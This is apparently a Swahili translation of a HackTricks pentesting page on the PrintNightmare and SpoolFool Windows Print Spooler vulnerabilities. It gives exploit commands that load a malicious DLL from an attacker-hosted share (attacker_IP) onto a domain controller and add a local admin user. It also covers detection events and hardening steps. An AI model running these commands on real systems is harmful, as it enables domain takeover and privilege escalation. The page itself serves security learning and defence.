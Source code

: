 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare ni jina la pamoja lililotolewa kwa familia ya udhaifu katika huduma ya Windows **Print Spooler** inayoruhusu **utendaji wa msimbo wa kiholela kama SYSTEM** na, wakati spooler inapatikana kupitia RPC, **utendaji wa msimbo wa mbali (RCE) kwenye waudhibiti wa kikoa na seva za faili**. CVEs zinazotumiwa zaidi ni **CVE-2021-1675** (iliyokuwa na daraja la LPE mwanzoni) na **CVE-2021-34527** (RCE kamili). Masuala mengine kama **CVE-2021-34481 (“Point & Print”)** na **CVE-2022-21999 (“SpoolFool”)** yanaonyesha kwamba uso wa shambulio bado haujafungwa.

---

## 1. Vipengele vilivyo hatarini & CVEs

| Mwaka | CVE | Jina fupi | Primitive | Maelezo |
|------|-----|------------|-----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Imerekebishwa mwezi Juni 2021 CU lakini ilipita na CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx inaruhusu watumiaji walioidhinishwa kupakia DLL ya dereva kutoka sehemu ya mbali|
|2021|CVE-2021-34481|“Point & Print”|LPE|Usakinishaji wa dereva usio na saini na watumiaji wasiokuwa wasimamizi|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Uundaji wa saraka ya kiholela → kupanda DLL – inafanya kazi baada ya maboresho ya 2021|

Zote zinatumia moja ya **mbinu za MS-RPRN / MS-PAR RPC** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) au uhusiano wa kuaminiana ndani ya **Point & Print**.

## 2. Mbinu za unyakuzi

### 2.1 Kuathiriwa kwa Waudhibiti wa Kikoa wa Mbali (CVE-2021-34527)

Mtumiaji wa kikoa aliyeidhinishwa lakini **asiye na mamlaka** anaweza kuendesha DLL za kiholela kama **NT AUTHORITY\SYSTEM** kwenye spooler ya mbali (mara nyingi DC) kwa:
```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
-f \
'\\attacker_IP\share\evil.dll'
```
Popular PoCs ni pamoja na **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) na moduli za Benjamin Delpy `misc::printnightmare / lsa::addsid` katika **mimikatz**.

### 2.2 Kuinua mamlaka ya ndani (Windows yoyote inayoungwa mkono, 2021-2024)

API hiyo hiyo inaweza kuitwa **katika** ili kupakia dereva kutoka `C:\Windows\System32\spool\drivers\x64\3\` na kupata mamlaka ya SYSTEM:
```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```
### 2.3 SpoolFool (CVE-2022-21999) – kupita marekebisho ya 2021

Marekebisho ya Microsoft ya 2021 yalizuia upakiaji wa madereva wa mbali lakini **hayakuimarisha ruhusa za directory**. SpoolFool inatumia parameter ya `SpoolDirectory` kuunda directory isiyo na mipaka chini ya `C:\Windows\System32\spool\drivers\`, inashusha DLL ya payload, na inalazimisha spooler kuipakia:
```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```
> Utekelezaji unafanya kazi kwenye Windows 7 → Windows 11 na Server 2012R2 → 2022 zilizopatikana kabla ya sasisho za Februari 2022

---

## 3. Ugunduzi & uwindaji

* **Event Logs** – wezesha *Microsoft-Windows-PrintService/Operational* na *Admin* channels na angalia kwa **Event ID 808** “Spooler ya uchapishaji ilishindwa kupakia moduli ya plug-in” au kwa ujumbe wa **RpcAddPrinterDriverEx**.
* **Sysmon** – `Event ID 7` (Picha imepakiwa) au `11/23` (Kuandika/kufuta faili) ndani ya `C:\Windows\System32\spool\drivers\*` wakati mchakato mzazi ni **spoolsv.exe**.
* **Mfuatano wa mchakato** – arifu kila wakati **spoolsv.exe** inapozalisha `cmd.exe`, `rundll32.exe`, PowerShell au binary isiyo na saini.

## 4. Kupunguza & kuimarisha

1. **Sasisha!** – Tekeleza sasisho la hivi karibuni la jumla kwenye kila mwenyeji wa Windows ambaye ana huduma ya Print Spooler iliyosakinishwa.
2. **Zima spooler mahali ambapo haitahitajika**, hasa kwenye Watawala wa Kikoa:
```powershell
Stop-Service Spooler -Force
Set-Service Spooler -StartupType Disabled
```
3. **Zuia muunganisho wa mbali** wakati bado unaruhusu uchapishaji wa ndani – Sera ya Kundi: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Punguza Point & Print** ili tu wasimamizi waweze kuongeza madereva kwa kuweka thamani ya rejista:
```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
/v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
```
Mwongozo wa kina katika Microsoft KB5005652

---

## 5. Utafiti / zana zinazohusiana

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)
* SpoolFool exploit & andiko
* 0patch micropatches kwa SpoolFool na makosa mengine ya spooler

---

**Kusoma zaidi (nje):** Angalia chapisho la blogu la mwongozo wa 2024 – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)

## Marejeo

* Microsoft – *KB5005652: Manage new Point & Print default driver installation behavior*
<https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*
<https://github.com/ly4k/SpoolFool>
{{#include ../../banners/hacktricks-training.md}}
